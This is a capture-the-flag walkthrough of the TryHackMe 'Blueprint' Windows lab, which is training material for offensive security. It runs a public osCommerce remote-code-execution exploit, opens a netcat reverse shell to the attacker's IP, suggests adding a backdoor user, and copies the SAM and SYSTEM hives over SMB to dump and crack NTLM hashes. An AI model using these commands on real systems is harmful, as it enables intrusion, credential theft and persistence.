

# THM - Blueprint

#### Ip: 10.10.150.16
#### Name: Blueprint
#### Rating: Easy

----------------------------------------------------------------------


`Do you have what is takes to hack into this Windows Machine?`

Looks like we have two objectives on this box:

```text
- "Lab" user NTLM hash decrypted
- root.txt
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Blueprint]
└─$ sudo nmap -p-  --min-rate 10000 10.10.150.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 14:23 CDT
Warning: 10.10.150.16 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.150.16
Host is up (0.27s latency).
Not shown: 50173 filtered tcp ports (no-response), 15351 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49159/tcp open  unknown
49161/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 67.75 seconds
```
Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Blueprint]
└─$ sudo nmap -sC -sV -T4 10.10.150.16 -p 80,135,139,443,445,3306,8080,49152,49153,49159,49161
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 14:30 CDT
Nmap scan report for 10.10.150.16
Host is up (0.19s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-25T19:31:53
|_  start_date: 2023-07-25T19:17:28
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 026ce6399767 (unknown)
|_clock-skew: mean: -20m04s, deviation: 34m37s, median: -5s
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-25T20:31:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.47 seconds

```

Taking a look at the SMB shares, it looks like we have Read access to the `Users` share:


However, after browsing around a bit, I didn't find anything of interest. We can come back to that later if needed.

Trying HTTP on port 80 we get a 404 error:


Yet interestingly, if we navigate to either port 443 or to port 8080, we find a directory:


The directory is oscommerce-4.3.4. Clicking into the directory we can navigate to `catalog` and we are presented with an estore. 


Search for oscommerce vulnerabilites, I find this public exploit: https://www.exploit-db.com/exploits/50128


Looks like the exploit is dependent on the `/install` directory not having been removed by the administrator upon setup. Lets manually go check that for ourselves before trying out the exploit.


Nice! The admin failed to remove this page- this exploit may work for us.

Taking a quick look at the exploit it looks like it creates a function `rce(command)` which will take user input and tagets `/install/install.php?step=4`


It then tests out a command with `whoami` in the `cmd` variable, and if all goes to plan we should be able to issue commands with the `RCE_SHELL$` terminal prompt.


Lets give this exploit a try!

### Exploitation

We can launch the exploit, which should give us the ability to execute commands on the machine:

```text
┌──(ryan㉿kali)-[~/THM/Blueprint]
└─$ python osCommerce2.3.4.1-rce.py http://10.10.150.16:8080/oscommerce-2.3.4/catalog
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system

RCE_SHELL$ hostname
BLUEPRINT

RCE_SHELL$ net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Lab                      
The command completed with one or more errors.
```

Nice it worked! And it gave us a shell as nt authority\system as well!

Note: I ran this exploit against port 8080 to bypass issues I was getting with the self-signed certificate on port 443.

This pseudo-shell is nice, but I would rather have a proper shell. Let's use Certutil to transfer over nc.exe to the target:


(I'm not sure why sometimes on Windows targets I get two hits on my Python server. If anyone knows feel free to reach out!)

Now that nc.exe is on the box, all I need to do is set up a NetCat listener and issue:

```text
nc.exe -e cmd.exe 10.6.61.45 443
```


Cool, now we're in business, and have a bit more stable of a shell. If I wanted even more persistence, and because I'm nt\system on the target, I could do something like:

```text
net user hacker password123 /add
```

But that is likely overkill for our purposes here today. 

Lets go ahead and grab the root.txt flag:


### "Lab" User's NTLM Hash:

Now normally this would be all that we need in a CTF, but this box is also asking for the NTLM hash of the user 'Lab' - Lets track that down.

I would normally use Mimikatz for a task like this, but was having a hard time getting it to work properly. This is a really old target, and I'm not entirely too sure what the issue was.

Either way, it reinforces how important it is to know several ways to get the job done. Lets 'live off the land' a bit more so to speak and dump the SAM and SYSTEM files back to our machine.

Firstly I'll need to set up an SMB server on my attacking machine:

```text
impacket-smbserver ryan .
```
Then on the target I can run:

```text
net use * \\10.6.61.45\ryan
```
We can confirm now that the machines are connected:


Now we just need to prepare the desired files:

```text
C:\Users\Administrator\Desktop>reg save hklm\sam SAM
reg save hklm\sam SAM
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save hklm\system SYSTEM
reg save hklm\system SYSTEM
The operation completed successfully.
```

And copy them over:

```text
C:\Users\Administrator\Desktop>copy C:\Users\Administrator\Desktop\SAM Z:\
copy C:\Users\Administrator\Desktop\SAM Z:\
        1 file(s) copied.

C:\Users\Administrator\Desktop>copy C:\Users\Administrator\Desktop\SYSTEM Z:\
copy C:\Users\Administrator\Desktop\SYSTEM Z:\
        1 file(s) copied.
```

Now that the files are back on my attacking machine I can run:

```text
samdump2 SYSTEM SAM
```
To extract the stored NTLM hashes of the users:


Cool, lets head over to https://crackstation.net/ and crack this hash:

(Obviously on a real engagement you're definitely not gonna wanna post live password hashes in a site like this, but it's a huge time saver on CTFs)

Nice, Crackstation instantly cracked the hash



And that's that! Thank you for following along,

-Ryan

-------------------------------------------------------------
